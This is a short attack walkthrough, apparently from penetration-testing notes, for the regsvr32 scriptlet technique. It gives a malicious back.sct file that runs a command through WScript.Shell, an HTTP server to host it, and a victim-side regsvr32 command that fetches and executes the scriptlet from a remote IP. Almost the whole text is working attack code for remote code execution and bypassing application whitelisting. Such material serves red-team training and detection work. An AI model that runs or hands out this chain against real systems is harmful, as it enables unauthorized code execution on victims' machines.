 # Attacker server
- Create malicious file (back.sct):
```xml
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
- Run listenning server:
```python
python3 -m http.server 80
```

# Victim machine
- Open cmd.exe and run the following command
```cmd
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
